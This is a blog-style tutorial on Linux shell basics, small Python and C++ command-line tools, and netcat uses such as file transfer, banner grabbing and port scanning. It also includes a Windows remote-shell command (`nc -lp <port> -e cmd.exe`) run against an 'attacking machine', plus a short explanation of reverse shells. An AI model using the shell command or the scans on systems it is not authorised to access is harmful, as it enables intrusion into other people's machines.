 ```yaml
---
title: Basics of Linux Commands and NetCat
date: 2020-05-30 12:00:00 -0000
categories: [Computers and Fun]
tags: [linux,tool,netcat]
---
```


A shell is an interface to the operating system's services. All process are created by `fork()` and given a new direction by the `exec()` process. The trace of forks and calls can be seen from the strace command.

## Using shell script

This is more like using a shell to create more shell commands. A shell script is an executable which is executed by the terminal or the shell interpreter. Linux's default shell is usually the bourne again shell or `bash`. The default commands available for the shell can be written as a script to perform more complex functions and can be run as an executable. Aliases can also be used.

## Using programming languages like c and c++

The compiled code produces and executable which can be treated as a command. Example `C++` snippet &rarr;

```cpp
#include<iostream>

using namespace std;

int main()
{
    cout<<"Enter name - ";
    string s;
    cin>>s;
    cout<<endl<<"Welcome "<<s<<". System ready to rumble!!"<<endl;
    return 0;
}
```

## Common ground for the above two methods

In both cases, we need to run the commands using `./command` in the specific directory. This is not like a true command. All standard commands are stored as executables or as links to the executables in specific directories like `/bin/` or `/usr/bin/` etc. To actually call the command we do not specify the directory, we just specify the name without `./`. There is a `PATH` variable which stores the locations of all the mentioned folders, which are searched when a command is called. To emulate the working of standard commands, we need to add the directory to the `PATH` using a command as follows &rarr;

```bash
export PATH = "$PATH:<directory to be added>"
```

This will be valid for the particular session on the bash terminal. Therefore, to make the command always available, we need to add this command to the `.bashrc` or `.profile` file in the home directory.

## Complexity increased - Use python

Many packages are available for python which can be used to create commands for us which might actually help us in day to day work instead of using the commands as simple hello world programs. There are two types to classify this use as &rarr;

1. Standard for different packages.
2. Using [optparse](https://www.ibm.com/developerworks/aix/library/au-pythocli/) Refer to python code snippet for example on nmap package for python.

```python
#! /usr/bin/env python3

import nmap
import sys

nm=nmap.PortScanner()
i = 0
for ip in sys.argv:
    i = i+1
    if i==1:
        continue
    else:
        nm.scan(ip, '21-443')
        for host in nm.all_hosts():
            print("{} ({})".format(host, nm[host].hostname()))
            for proto in nm[host].all_protocols():
                for kk in nm[host][proto].keys():
                    if (kk==80) or (kk==443):
                        print("{} : {}".format(proto,kk))
```

> `#!` is the shebang directive. Using optparse, the commands we make will be very similar to the existing command structure. We can even have the help section and error messages inbuilt which make the commands more interactive.

## Argparse

The package `optparse` is now deprecated and replaced by `argparse` based on `optparse`. An example for a simple command to compute squares using `argparse` is as follows &rarr;

```python
import argparse
parser = argparse.ArgumentParser()
parser.add_argument("square", type=int,
                    help="display a square of a given number")
parser.add_argument("-v", "--verbosity", type=int, choices=[0, 1, 2],
                    help="increase output verbosity")
args = parser.parse_args()
answer = args.square**2
if args.verbosity == 2:
    print("the square of {} equals {}".format(args.square, answer))
elif args.verbosity == 1:
    print("{}^2 == {}".format(args.square, answer))
else:
    print(answer)
```

The output is as follows &rarr;

```
$ python x.py
usage: x.py [-h] [-v {0,1,2}] square
x.py: error: too few arguments

$ python x.py 4
16

$ python x.py -v 0 4
16

$ python x.py -v 1 4
4^2 == 16

$ python -v 2 4
the square of 4 equals 16
```

---

## NetCat 

### Use netcat to chat

Use listen command on the server side. `nc -l -p <port>` Connect to the server from client on the same port.`nc <server> <port>` Can be done on the same machine also.

### Use netcat to send a file

Use server machine to give command`nc -v -w 30 -p <port> -l < file.txt` On the client machine give command `nc -v -w 2 <server ip> <port> > receivedfile.txt` -w is for wait and the -v is for verbose output. The file.txt will be received as receivedfile.txt on the client machine. Works on local machine as well. Test.

### Netcat for banner grabbing

It can be done with telnet as well but this does not alter the stream of data unlike telnet. Just nc to the ip using a specific port to get the info regarding the server running.

### Port scanning

Use -z for zero input output. `nc -v <ip> -z <port-start>-<port-end>` -n option can also be used. This does not do a DNS scan on the given ip address which does save time. Even -w can be used to wait specified number of seconds.

### Execute remote shell on windows

To execute a remote shell on windows, get an nc command executed as follows `nc -lp <port> -vv -e cmd.exe` Then execute nc on the attacking machine as follows `nc <ip> <port>` It is always unencrypted. Since this is always unsafe, there is a version of netcat called cryptcat which has two fish encryption. If the listener uses the -e option it is called a direct shell. If the connecting machine uses the -e option it is called a reverse shell. This can help in situations where not both the machines on the network can port forward.

### Netcat to transfer files between two systems on a network

To transfer a folder having the files to be sent, on the sender use command `tar -cf - <foldername> | nc -l -p 1337` On the receiving machine type command `nc <sender ip> 1337 | tar -xf -`

### Ncat

ncat is a more modern version of netcat which is implemented by nmap libraries. It has support for multiple protocols and transmission over ssl. On the listener type `ncat [options] [arguments] --allow <allowed ip> -vln <port> --ssl` Only connections from allowed ip will be allowed will have an encrypted channel. The connection will be allowed but not established form the allowed ip if the command from that ip does not contain the ssl option. On allowed ip type `ncat -vn <listener> <l port> --ssl`

## Resources

[Argparse](https://docs.python.org/3/library/argparse.html#module-argparse)
